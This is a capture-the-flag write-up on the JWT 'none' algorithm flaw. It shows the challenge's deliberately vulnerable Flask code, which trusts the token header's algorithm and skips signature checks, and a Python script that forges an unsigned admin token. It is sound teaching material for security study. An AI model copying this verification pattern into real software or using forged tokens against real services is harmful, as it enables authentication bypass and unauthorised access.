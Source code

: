 
Lets look at JWT algorithms. The first part of a JWT is a JOSE (JavaScript object signing and encryption)  and when you decode it. It looks like this

```
{"typ":"JWT","alg":"HS256"}

```

This tells the server its a JWT and which algorithms to use to verify it. The server has to process this untrusted input before it is able to verify the integrity of a token! In ideal cryptographic protocols, you verify messages receive before performing operations on them. before performing any further operations on them, otherwise in Moxie Marlinspike's words, "it will somehow inevitably lead to doom".


The "none" algorithm in JWT is case in point. The link below takes you to a page where you can interact with a broken session API, which emulates a vulnerability that existed in a lot of JWT libraries. Use it to bypass authorisation and get the flag.

```
import base64
import json
import jwt # note this is the PyJWT module, not python-jwt


SECRET_KEY = ?
FLAG = ?


@chal.route('/no-way-jose/authorise/<token>/')
def authorise(token):
    token_b64 = token.replace('-', '+').replace('_', '/') # JWTs use base64url encoding
    try:
        header = json.loads(base64.b64decode(token_b64.split('.')[0] + "==="))
    except Exception as e:
        return {"error": str(e)}

    if "alg" in header:
        algorithm = header["alg"]
    else:
        return {"error": "There is no algorithm key in the header"}

    if algorithm == "HS256":
        try:
            decoded = jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
        except Exception as e:
            return {"error": str(e)}
    elif algorithm == "none":
        try:
            decoded = jwt.decode(token, algorithms=["none"], options={"verify_signature": False})
        except Exception as e:
            return {"error": str(e)}
    else:
        return {"error": "Cannot decode token"}

    if "admin" in decoded and decoded["admin"]:
        return {"response": f"Welcome admin, here is your flag: {FLAG}"}
    elif "username" in decoded:
        return {"response": f"Welcome {decoded['username']}"}
    else:
        return {"error": "There is something wrong with your session, goodbye"}


@chal.route('/no-way-jose/create_session/<username>/')
def create_session(username):
    encoded = jwt.encode({'username': username, 'admin': False}, SECRET_KEY, algorithm='HS256')
    return {"session": encoded}
```


Look at this piece of code right here.

```
if "alg" in header:
        algorithm = header["alg"]
```

So if we set the Alg to none then we can just base64 the Json which says Algorithm Heres my script to do this


```
import base64
import jwt
import json

def base64url_encode(data):
    return base64.urlsafe_b64encode(data).decode().rstrip('=')


header = {
    "alg": "none",
    "typ": "JWT"
}

payload = {
    "username": "admin",
    "admin": True
}
encoded_header = base64url_encode(json.dumps(header).encode())
encoded_payload = base64url_encode(json.dumps(payload).encode())

jwt_token = f"{encoded_header}.{encoded_payload}."

print(jwt_token)
```

